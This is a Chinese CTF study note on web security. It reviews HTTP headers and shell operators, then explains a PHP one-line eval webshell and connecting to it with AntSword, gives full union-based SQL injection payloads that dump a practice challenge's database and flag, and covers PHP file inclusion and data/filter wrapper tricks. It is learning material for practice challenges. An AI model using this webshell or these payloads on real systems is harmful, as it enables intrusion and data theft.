### 0x01复习一些学过的内容
#### http请求头
**http请求头基本格式**  
一个真实的http请求报文结构如下所示：  
```
POST /check.php HTTP/1.1
Host: 111.198.29.45:50839
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer:111.198.29.45:50839
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

a=123&b=456
```
解析：  
http请求可分为三部分：请求行、请求头、请求体  
第一行即为请求行，组成为```请求方法 空格 请求地址 空格 协议版本```，请求方法即GET POST PUT DELETE OPTION等，请求地址为请求资源路径，'/index.php'意为`http://111.198.29.45:50839/index.php`，协议版本即使用的http协议版本，1.0或1.1  
第2-10行为请求头，即header，请求头指定了该http请求的一些基本信息，常用的请求头类型有：  

Header | 解释 | 示例
--- | --- | ---
Accept | 指定客户端能够接收的内容类型 | `Accept: text/plain,text/html,application/json`
Accept-Charset | 浏览器可以接受的字符编码集 | `Accept-Charset: iso-8859-5`
Accept-Encoding | 指定浏览器可支持的web服务器返回内容压缩编码类型 | `Accept-Encoding:compress,gzip`
Cache-Control | 指定请求和响应遵循的缓存机制 | `Cache-Control: no-cache`
Connection | 表示是否需要持久连接 | `Connection: close`
Cookie | http请求发送时会把保存在该请求域名下的所有cookie一起发送给web服务器 | `Cookie:user=123;auth=admin;`
Content-Length | 请求内容长度 | `Content-Length: 345`
Content-Type | 请求的与实体对应的MIME信息 | `Content-Type: application/x-www-form/urlencoded`
Date | 请求发送时间 | `Date: Tue,15 Feb 2020 10:10:45 GMT`
User-Agent | 包含发出请求的用户信息，例如浏览器，操作系统等 | `User-Agent: Mozilla/5.0 (Linux;X11)`
**Host** | **指定请求的服务器的域名和端口号** | **`Host:www.abc123.com`**
**Referer** | **请求来路** | **`Referer: http://abc123.com/1.php`**
**X-Forwarded-For** | **用户的真实ip地址** | **`X-Forwarded-For: 123.123.123.123`**

第11行为空行，将请求头和请求体分开  
第12行即请求体，请求体中包含查询字符串等信息  
#### shell重定向，| 、& 、|| 和 && 的区别
**重定向输出 '>'**  
command > file  
将command的输出写入file中，如果file文件存在，则覆盖文件内容写入，如果不存在，则创建文件。  
command >> file  
将command的输入追加到file文件的末尾。  
**重定向输入 '<'**  
command < file  
将标准输入流从键盘重定向到file文件。  
**管道命令 '|' **  
command1 | command2  
将command1的stdout作为command2的stdin。  
**后台运行进程 '&'**  
command &  
将command置于后台运行  
** '||' 和 '&&' **  
command1 || command2 当command1未被正确执行时，才会执行command2，否则command2不执行。  
command1 && command2 当command1被正确执行时，才会执行command2，否则command2不执行。  
#### 一句话木马
一句话木马：一句话木马就是一段简单的代码，就这短短的一行代码，就能做到和大马相当的功能。  
代码：```<?php eval($_POST['shell']);?>```  
这段代码的意思很简单，执行通过POST获取到的内容。例如，我们创建一个文件，名字叫shell.php,里面写入这段代码，保存，随后通过浏览器访问/shell.php，同时通过POST传入要执行的命令，例如phpinfo，发现phpinfo被执行了。  
  
我们也可以通过蚁剑来连接，在蚁剑中新建连接，地址栏输入[ip]:[port]/shell.php,密码输入shell，点击连接，发现我们直接连接上了服务器，实现了getshell的操作。  
#### sql联合查询注入[无过滤]
sql注入的原理：通过精心构造的payload，插入到原sql语句中，改变原sql语句的逻辑，从而实现攻击者想实现的操作。  
这里回顾一下sql联合查询注入的操作。联合查询注入的前提是，页面上有显示位。所谓显示位即在一个网站的正常页面，服务端执行SQL语句查询数据库中的数据，客户端将数据展示在页面中，这个展示数据的位置就是显示位。  
用一个题来举例子。  
题目来源：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=4686&page=1  

拿到题目，发现search框输入```'```(单引号)会500响应，初步判断存在sql注入。  

判断一下sql语句拼接方式。  

下一步开始注入，先判断列数。  

发现输入order by 3#有回显，而order by 4#则500响应，判断列数为3.  
下一步开始逐步爆库，爆表，爆列。  
```
'or '1'='1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3#
```
  
```
'or '1'='1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='news'),3#
```

```
'or '1'='1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='news' and table_name='secret_table'),3#
```

```
'or '1'='1' union select 1,(select fl4g from secret_table),3#
```

### 0x02一些新学的
#### php文件包含
php的include命令会首先检测include的文件是否存在，如果存在则执行该文件。以一个题为例：  
题目来源：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5415&page=1  
拿到题目可以看出是代码审计，获取hello和page参数，其中如果page参数中含有```php://```字样则会过滤。本题思路就是利用php的文件包含特性来实现代码执行。  




#### php data伪协议
还是上面那个题，除了通过文件包含，还可以利用php的data伪协议来读取文件。  


当然这个题也可以通过大小写绕过来实现使用```php://filter```伪协议完成文件内容读取。  

#### .phps源代码文件
.phps为php的源代码文件，通常在题目页面无提示时，可以结合题目提示来考虑是否存在源代码泄露，然后可以尝试读取.phps。  
